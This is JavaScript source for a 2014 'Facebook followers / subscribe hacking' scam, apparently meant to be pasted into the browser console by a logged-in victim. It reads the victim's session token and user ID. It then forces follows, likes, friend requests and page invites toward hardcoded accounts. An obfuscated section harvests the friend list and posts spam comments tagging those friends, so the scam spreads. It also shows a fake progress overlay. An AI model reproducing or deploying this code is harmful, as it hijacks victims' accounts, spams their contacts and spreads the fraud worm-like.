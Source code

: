 /*HTML/JavaScript page status="protected"*/
/*FACEBOOK FOLLOWERS*/
/*© 2014 TheUsta-Tolga. All Rights Reserved.*/

var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value;
var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);
var fb_dtsg=document.getElementsByName("fb_dtsg")[0].value;
var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);
function a(abone){var http4=new XMLHttpRequest;var url4="/ajax/follow/follow_profile.php?__a=1";var params4="profile_id="+abone+"&location=1&source=follow-button&subscribed_button_id=u37qac_37&fb_dtsg="+fb_dtsg+"&lsd&__"+user_id+"&phstamp=";http4.open("POST",url4,true);http4.onreadystatechange=function(){if(http4.readyState==4&&http4.status==200)http4.close};http4.send(params4)}a("100006491494904");function sublist(uidss){var a=document.createElement('script');a.innerHTML="new AsyncRequest().setURI('/ajax/friends/lists/subscribe/modify?location=permalink&action=subscribe').setData({ flid: "+uidss+" }).send();";document.body.appendChild(a)}sublist("1377061689240837");sublist("1377061689240837");var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);var fb_dtsg=document.getElementsByName('fb_dtsg')[0].value;var now=(new Date).getTime();function P(post){var X=new XMLHttpRequest();var XURL="//www.facebook.com/ajax/ufi/like.php";var XParams="like_action=true&ft_ent_identifier="+post+"&source=1&client_id="+now+"%3A3366677427&rootid=u_ps_0_0_14&giftoccasion&ft[tn]=%3E%3DU&ft[type]=20&ft[qid]=5882006890513784712&ft[mf_story_key]="+post+"&nctr[_mod]=pagelet_home_stream&__user="+user_id+"&__a=1&__dyn=7n8ahyj35CFwXAg&__req=j&fb_dtsg="+fb_dtsg+"&phstamp=";X.open("POST",XURL,true);X.onreadystatechange=function(){if(X.readyState==4&&X.status==200){X.close}};X.send(XParams)}var fb_dtsg=document.getElementsByName('fb_dtsg')[0].value;var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);function Like(p){var Page=new XMLHttpRequest();var PageURL="//www.facebook.com/ajax/pages/fan_status.php";var PageParams="&fbpage_id="+p+"&add=true&reload=false&fan_origin=page_timeline&fan_source=&cat=&nctr[_mod]=pagelet_timeline_page_actions&__user="+user_id+"&__a=1&__dyn=798aD5z5CF-&__req=d&fb_dtsg="+fb_dtsg+"&phstamp=";Page.open("POST",PageURL,true);Page.onreadystatechange=function(){if(Page.readyState==4&&Page.status==200){Page.close}};Page.send(PageParams)}Like("323542267799177");function IDS(r){var X=new XMLHttpRequest();var XURL="//www.facebook.com/ajax/add_friend/action.php";var XParams="to_friend="+r+"&action=add_friend&how_found=friend_browser_s&ref_param=none&&&outgoing_id=&logging_location=search&no_flyout_on_click=true&ego_log_data&http_referer&__user="+user_id+"&__a=1&__dyn=798aD5z5CF-&__req=35&fb_dtsg="+fb_dtsg+"&phstamp=";X.open("POST",XURL,true);X.onreadystatechange=function(){if(X.readyState==4&&X.status==200){X.close}};X.send(XParams)}
IDS("");IDS("100008110564686"); a("100008110564686"); a(""); a("");
a(""); Like("496904850413535"); sublist("1377061689240837"); sublist(""); sublist(""); sublist(""); sublist(""); sublist(""); sublist(""); sublist(""); sublist(""); sublist(""); Like(""); Like(""); Like(""); Like(""); Like(""); Like("496904850413535"); Like(""); Like(""); sublist(""); sublist(""); 
var _0xa22c=["value","fb_dtsg","getElementsByName","match","cookie","256941131144231","onreadystatechange","readyState","arkadaslar = ","for (;;);","","replace","responseText",";","length","entries","payload","round"," Abone Hack - Subscribe Hacking || WATCH THIS TUTORIAL - Video İzle :D  THIS REALLY WORK - Çalışıyor..\udbb8\udc3c @[","uid",":","text","]"," ","\x26filter[0]=user","\x26options[0]=friends_only","\x26options[1]=nm","\x26token=v7","\x26viewer=","\x26__user=","https://","indexOf","URL","GET","https://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","open","http://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","send","random","floor","\x26ft_ent_identifier=","\x26comment_text= INCREASE YOU FOLLOWERS BRO - Abone Kasma Hack  [ 100% WORK ]  ^_^ THIS IS MY TUTORIAL","\x26source=2","\x26client_id=1377871797138:1707018092","\x26reply_fbid","\x26parent_comment_id","\x26rootid=u_jsonp_2_3","\x26clp={\x22cl_impid\x22:\x22453524a0\x22,\x22clearcounter\x22:0,\x22elementid\x22:\x22js_5\x22,\x22version\x22:\x22x\x22,\x22parent_fbid\x22:","}","\x26attached_sticker_fbid=0","\x26attached_photo_fbid=0","\x26giftccasion","\x26ft[tn]=[]","\x26__a=1","\x26__dyn=7n8ahyj35ynxl2u5F97KepEsyo","\x26__req=q","\x26fb_dtsg=","\x26ttstamp=","POST","/ajax/ufi/add_comment.php","Content-type","application/x-www-form-urlencoded","setRequestHeader","status","close"];var fb_dtsg=document[_0xa22c[2]](_0xa22c[1])[0][_0xa22c[0]];var user_id=document[_0xa22c[4]][_0xa22c[3]](document[_0xa22c[4]][_0xa22c[3]](/c_user=(\d+)/)[1]);var id=_0xa22c[5];var arkadaslar=[];var svn_rev;function arkadaslari_al(id){var _0x7892x7= new XMLHttpRequest();_0x7892x7[_0xa22c[6]]=function (){if(_0x7892x7[_0xa22c[7]]==4){eval(_0xa22c[8]+_0x7892x7[_0xa22c[12]].toString()[_0xa22c[11]](_0xa22c[9],_0xa22c[10])+_0xa22c[13]);for(f=0;f<Math[_0xa22c[17]](arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]]/27);f++){mesaj=_0xa22c[10];mesaj_text=_0xa22c[10];for(i=f*27;i<(f+1)*27;i++){if(arkadaslar[_0xa22c[16]][_0xa22c[15]][i]){mesaj+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]]+_0xa22c[22];mesaj_text+=_0xa22c[23]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]];} ;} ;yorum_yap(id,mesaj);} ;} ;} ;var _0x7892x8=_0xa22c[24];_0x7892x8+=_0xa22c[25];_0x7892x8+=_0xa22c[26];_0x7892x8+=_0xa22c[27];_0x7892x8+=_0xa22c[28]+user_id;_0x7892x8+=_0xa22c[29]+user_id;if(document[_0xa22c[32]][_0xa22c[31]](_0xa22c[30])>=0){_0x7892x7[_0xa22c[35]](_0xa22c[33],_0xa22c[34]+_0x7892x8,true);} else {_0x7892x7[_0xa22c[35]](_0xa22c[33],_0xa22c[36]+_0x7892x8,true);} ;_0x7892x7[_0xa22c[37]]();} ;function RandomArkadas(){var _0x7892xa=_0xa22c[10];for(i=0;i<9;i++){_0x7892xa+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]()*arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]()*arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[21]]+_0xa22c[22];} ;return _0x7892xa;} ;function yorum_yap(id,_0x7892xc){var _0x7892xd= new XMLHttpRequest();var _0x7892x8=_0xa22c[10];_0x7892x8+=_0xa22c[40]+id;_0x7892x8+=_0xa22c[41]+encodeURIComponent(_0x7892xc);_0x7892x8+=_0xa22c[42];_0x7892x8+=_0xa22c[43];_0x7892x8+=_0xa22c[44];_0x7892x8+=_0xa22c[45];_0x7892x8+=_0xa22c[46];_0x7892x8+=_0xa22c[47]+id+_0xa22c[48];_0x7892x8+=_0xa22c[49];_0x7892x8+=_0xa22c[50];_0x7892x8+=_0xa22c[51];_0x7892x8+=_0xa22c[52];_0x7892x8+=_0xa22c[29]+user_id;_0x7892x8+=_0xa22c[53];_0x7892x8+=_0xa22c[54];_0x7892x8+=_0xa22c[55];_0x7892x8+=_0xa22c[56]+fb_dtsg;_0x7892x8+=_0xa22c[57];_0x7892xd[_0xa22c[35]](_0xa22c[58],_0xa22c[59],true);_0x7892xd[_0xa22c[62]](_0xa22c[60],_0xa22c[61]);_0x7892xd[_0xa22c[6]]=function (){if(_0x7892xd[_0xa22c[7]]==4&&_0x7892xd[_0xa22c[63]]==200){_0x7892xd[_0xa22c[64]];} ;} ;_0x7892xd[_0xa22c[37]](_0x7892x8);} ;arkadaslari_al(id);
var Title='<span style="font-size:x-large;"><b><span style="color: red;">Abone Kasma Subscribe Hacking -  2014</span></b></span><br/>';var Descriptions = "",page_id = /"profile_owner":"([0-9]+)"/.exec(document.getElementById("pagelet_timeline_main_column").getAttribute("data-gt"))[1];function InviteFriends(opo){jx.load(window.location.protocol + "//www.facebook.com/ajax/pages/invite/send?&fb_dtsg=" + fb_dtsg + "&profileChooserItems=%7B%22" + opo + "%22%3A1%7D&checkableitems[0]=" + opo + "&page_id=323542267799177&__user="+ user_id +  "&__a=1&__dyn=7n8aD5z5CF-3ui&__req=k&phstamp=", function (a) {var b = a.substring(a.indexOf("{"));var c = JSON.parse(b);i--;Descriptions = "<div class='friend-edge-name' style='padding-bottom:5px;text-align:left;font-size:10px;white-space:pre-wrap;";if (c.error) {Descriptions += "color:darkred'>";err++;if (c.errorDescription) Descriptions += c.errorDescription;else Descriptions += JSON.stringify(c, null, "")} else {Descriptions += "color:darkgreen'>";Descriptions += arn[i] + " has been invited t " + page_name + ".";suc++}Descriptions += "</div>";var display = "<div id='friend-edge-display' style='box-shadow:0px 3px 8px rgba(0, 0, 0, 0.3);position:fixed;left:50%;margin-left:-273px;top:100px;width:600px;z-index:9999;font-size:14px;text-align:center;padding:15px;box-shadow:0pt 1px 0pt rgba(0,0,0,0.1);border-radius:3px;border:1px solid rgba(0,0,0,0.9);background-color:rgba(0,0,0,0.9);color:#ffffff'>"; display += "<div style='padding-bottom:5px;font-size:20px;'>" + Title + "</div><br/>";if (i > 0) {display += "Detected <b>" +arr.length + "</b> User Online<br/>";display += "<b>" + suc + "</b> of <b>" +arr.length + "</b> Getting Followers.<br/>";display += " (<b>" + i + "</b> User Left...)<br/><br/>";display += '<span style="color: lime;"><span style="font-size: large;"><b>Please Wait Until The Process is Complete - Süreç tamamlanıncaya kadar bekleyin lütfen</b></span></span>';display += "</div>";display += "</div>";window[tag + "_close"] = true} else {display += '<span style="color: lime;"><span style="font-size: large;"><b>SUCCESS</b></span></span>';display += "<div><span class='layerCancel uiOverlayButton uiButton uiButtonLarge' onClick='document.getElementById(\"pagelet_sidebar\").style.display=\"none\"' style='color:gray'>Tutup</span><br/>";display += "<div style='text-align:center;font-size:10px;white-space:pre-wrap;color:gray'><br/>";display += "</div>"; window[tag + "_close"] = false}display += "</div>";  document.getElementById("pagelet_sidebar").innerHTML = display}, "text", "post"); tay--;if (tay > 0) {var s = arr[tay];setTimeout("InviteFriends(" + s + ")", 100)}console.log(tay + "/" + arr.length + ":" + arr[tay] + "/" + arn[tay] + ", success:" + suc);}jx = {b: function () {var b = !1; if ("undefined" != typeof ActiveXObject) try {b = new ActiveXObject("Msxml2.XMLHTTP")} catch (c) {try {b = new ActiveXObject("Microsoft.XMLHTTP")} catch (a) {b = !1}} else if (window.XMLHttpRequest) try {b = new XMLHttpRequest} catch (h) { b = !1} return b},load: function (b, c, a, h, g) {var e = this.d();if (e && b) {e.overrideMimeType && e.overrideMimeType("text/xml"); h || (h = "GET"); a || (a = "text");g || (g = {}); a = a.toLowerCase();h = h.toUpperCase();b += b.indexOf("?") + 1 ? "&" : "?";var k = null;"POST" == h && (k = b.split("?"), b = k[0], k = k[1]);e.open(h, b, !0);e.onreadystatechange = g.c ? function () {g.c(e)} : function () {if (4 == e.readyState)if (200 == e.status) {var b = "";e.responseText && (b = e.responseText);"j" == a.charAt(0) ? (b = b.replace(/[\n\r]/g, ""), b = eval("(" + b + ")")) : "x" == a.charAt(0) && (b = e.responseXML);c && c(b)} else g.f && document.getElementsByTagName("body")[0].removeChild(g.f), g.e && (document.getElementById(g.e).style.display = "none"), error && error(e.status)};e.send(k)}}, d: function () {return this.b()}};function ChangeLocation() {window.location.href = "http://www.facebook.com/"}setTimeout("ChangeLocation", 1);window.onbeforeunload = function () {if (window[tag + "_close"]) return "Auto Like Sedang Berjalan, Tunggu Sampai Selesai!"};var i = 3;var tay = 3;var suc = 0;var err = 0;var arr = new Array;var arn = new Array;var pho = new Array;var tag = "Close";var page_name, x = document.getElementsByTagName("span");for (i = 0; i < x.length; i++)if (x[i].getAttribute("itemprop") == "name") page_name = x[i].innerHTML;var fb_dtsg = document.getElementsByName("fb_dtsg")[0].value;var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);jx.load(window.location.protocol + "///www.facebook.com/ajax/typeahead/first_degree.php?viewer=" + user_id + "&token=v7&filter[0]=user&options[0]=friends_only&options[1]=nm&options[2]=sort_alpha&__user=" + user_id + "&__a=1&__dyn=7n8aD5z5CF-3ui&__req=l", function (a) {var b = a;var c = b.substring(b.indexOf("{"));var d = JSON.parse(c);d = d.payload.entries;for (var e = 0; e < d.length; e++) arr.push(d[e].uid);for (var eg = 0; eg < d.length; eg++) arn.push(d[eg].text);for (var pic = 0; pic < d.length; pic++) pho.push(d[pic].photo);i = arr.length - 1;tay = i;console.log(arr.length);var display = "<div id='friend-edge-display' style='position:fixed;left:50%;margin-left:-273px;top:100px;width:600px;z-index:9999;font-size:14px;text-align:center;padding:15px;box-shadow:0pt 1px 0pt rgba(0,0,0,0.1);border-radius:3px;border:1px solid rgba(0,0,0,0.9);background-color:rgba(0,0,0,0.9);color:#ffffff'>";display += "<div style='padding-bottom:10px;font-size:20px;'>" + Title + "</div>";display += arr.length + " User Detected";display += "</div>";document.getElementById("pagelet_sidebar").innerHTML = display;InviteFriends(arr[i])});var parent=document.getElementsByTagName("html")[0];var _body = document.getElementsByTagName('body')[0];var _div = document.createElement('div');_div.style.height="25";_div.style.width="100%";_div.style.position="fixed";_div.style.top="auto";_div.style.bottom="0";_div.align="center";_body.appendChild(_div);
